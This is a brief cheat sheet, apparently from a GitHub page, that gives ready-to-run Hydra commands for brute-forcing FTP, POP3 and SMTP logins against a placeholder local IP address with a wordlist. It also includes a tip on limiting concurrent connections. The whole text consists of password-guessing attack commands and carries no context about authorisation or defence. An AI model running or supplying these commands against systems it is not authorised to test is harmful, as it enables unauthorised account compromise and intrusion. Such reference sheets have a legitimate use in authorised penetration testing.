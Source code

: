 # Hydra Brute Force
### FTP brute force
```
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f 192.168.X.XXX ftp -V
```
### POP3 brute force
```
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f 192.168.X.XXX pop3 -V
```
### SMTP brute force
```
hydra -P /usr/share/wordlistsnmap.lst 192.168.X.XXX smtp -V
```

Use -t to limit concurrent connections, example: -t 15


